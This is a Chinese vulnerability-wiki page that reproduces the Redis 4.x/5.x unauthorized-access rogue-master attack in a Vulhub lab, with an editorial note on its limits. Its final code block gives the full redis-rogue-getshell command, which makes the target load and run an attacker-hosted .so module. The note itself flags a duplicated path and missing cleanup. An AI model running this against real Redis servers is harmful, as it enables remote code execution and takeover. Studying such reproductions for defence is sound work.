


# Redis 4.x/5.x 未授权访问漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：可用复制与MODULE/CONFIG命令、可写模块文件且目标能连伪造主机，.so架构兼容
- 证据范围：与462/466同链，使用Vulhub脚本差异保留；redis-cli能建立TCP连接不能单独证明未授权可执行高危命令。

### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- cd RedisModulesSDK后又-f RedisModulesSDK/exp.so路径重复，后续脚本目录也未切回
- 4.x/5.0.5以前边界表述含糊，无补丁/源码支撑
- 复制操作会改变角色/数据，缺恢复原主从状态、配置和模块清理
- 外部PoC源码未包含，截图未视检

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Redis未授权访问在4.x/5.0.5以前版本下，我们可以使用master/slave模式加载远程模块，通过动态链接库的方式执行任意命令。

参考链接：

- https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf

## 环境搭建

Vulhub执行如下命令启动redis 4.0.14：

```shell
docker-compose up -d
```

环境启动后，通过`redis-cli -h your-ip`即可进行连接，可见存在未授权访问漏洞。

## 漏洞复现

redis未授权访问：




使用如下POC即可直接执行命令https://github.com/vulhub/redis-rogue-getshell：

```
$ cd RedisModulesSDK/
$ make
$ python3 redis-master.py -r target-ip -p 6379 -L local-ip -P 8888 -f RedisModulesSDK/exp.so -c "id"
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
